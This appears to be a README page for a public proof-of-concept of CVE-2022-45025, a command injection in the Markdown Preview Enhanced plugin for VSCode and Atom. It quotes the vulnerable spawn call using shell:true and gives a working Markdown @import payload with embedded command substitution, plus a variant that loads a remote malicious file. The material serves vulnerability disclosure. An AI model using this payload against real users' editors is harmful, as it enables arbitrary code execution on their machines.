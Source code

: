 # CVE-2022-45025

[PoC] Command injection via PDF import in Markdown Preview Enhanced (VSCode, Atom)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/yuriisanin](https://github.com/yuriisanin) |
| Url      | [https://github.com/yuriisanin/CVE-2022-45025](https://github.com/yuriisanin/CVE-2022-45025)                                               |
| Stars    | 90                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* command-injection* cve* exploit* markdown* rce

</details>

## Readme

# CVE-2022-45025
Command injection via PDF import in Markdown Preview Enhanced ([VSCode](https://marketplace.visualstudio.com/items?itemName=shd101wyy.markdown-preview-enhanced), [Atom](https://atom.io/packages/markdown-preview-enhanced))

## Description

The [Mume](https://github.com/shd101wyy/mume) markdown tool library was vulnerable to command injection due to use of `spawn` command with `{shell: true}` option. This could allow an attacker to achieve arbitary code execution by tricking victim into opening specially crafted Markdown file using VSCode or Atom. The library powers Markdown Preview Enhanced plugin for both [VSCode](https://github.com/shd101wyy/vscode-markdown-preview-enhanced) and [Atom](https://github.com/shd101wyy/markdown-preview-enhanced).


Vulnerable [code snippet](https://github.com/shd101wyy/mume/blob/7135d7606a6a57de6e2372c26a2f16bb98ecf2b2/src/pdf.ts):
```js
const task = spawn(
      "pdf2svg",
      [
        `"${pdfFilePath}"`,
        `"${path.resolve(svgDirectoryPath, svgFilePrefix + "%d.svg")}"`,
        "all",
      ],
      { shell: true },
    )
```

## Proof of Concept

The following Markdown document allows an attacker to execute arbitary command:

```md
@import "$(open -a Calculator > /dev/null | exit 0)hello.pdf"

The following comment will be recognised by MPE as valid "@import" command:

<!-- @import "$(open -a Calculator > /dev/null | exit 0)hello.pdf" -->
```

Alternatively, the payload could be executed from external source:
```md
<!-- @import "https://raw.githubusercontent.com/yuriisanin/CVE-2022-45025/main/examples/malicious.md" -->
```

**DEMO for both [VSCode](https://www.youtube.com/watch?v=bnK5DPdb5JU) and [Atom](https://www.youtube.com/watch?v=WxMVwkYrDzI) on YouTube.**

![vscode-rce-poc-gif](https://github.com/yuriisanin/CVE-2022-45025/blob/c60ece758e623176bc21461ef93604efa15d4e63/assets/mde-rce-short.gif)


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).



## Get the content

```
git clone https://github.com/yuriisanin/CVE-2022-45025
cd CVE-2022-45025
```

{% embed url="https://github.com/yuriisanin/CVE-2022-45025" %}

<figure><img src="https://avatars.githubusercontent.com/u/11749007?v=4" alt=""><figcaption><p>yuriisanin</p></figcaption></figure>
